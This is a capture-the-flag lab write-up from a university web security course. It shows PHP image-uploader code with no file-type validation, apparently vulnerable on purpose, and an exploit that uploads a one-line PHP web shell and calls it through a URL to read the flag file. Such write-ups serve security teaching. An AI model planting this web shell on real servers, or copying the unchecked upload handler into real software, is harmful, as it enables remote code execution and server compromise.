 ```yaml
---
title: Simple Web 0x04(Lab - Image Space 0x01)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Upload"
---
```


# Simple Web 0x04(Lab - Image Space 0x01)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9010

## Source code
:::spoiler code
```php!=
 <?php
    if (isset($_GET['source'])) {
        highlight_file(__FILE__);
        exit;
    }
?>
<h1>Image Uploader</h1>
<p>Only supports: jpg, jpeg, png</p>
<!-- upload form -->
<form action="index.php" method="POST" enctype="multipart/form-data">
    <input type="file" name="image_file">
    <input type="submit" value="Upload">
</form>
<p>
    <a href="/?source">View Source</a>
</p>
<?php
    if (!isset($_FILES['image_file'])) {
        die('Give me a file!');
    }

    $filename = basename($_FILES['image_file']['name']);

    $prefix = bin2hex(random_bytes(8));
    move_uploaded_file($_FILES['image_file']['tmp_name'], "images/${prefix}_${filename}");
    echo "<img src=\"images/${prefix}_${filename}\">";
?>
```
:::

There's no any protection. Therefore, upload `webshell` and get shell

## Exploit - `webshell`
Payload: `<?php system($_GET["sh"]); ?>`
`view-source:http://h4ck3r.quest:9010/images/09956fc7c4f424b0_simple.php?sh=cat%20../../../../flag`
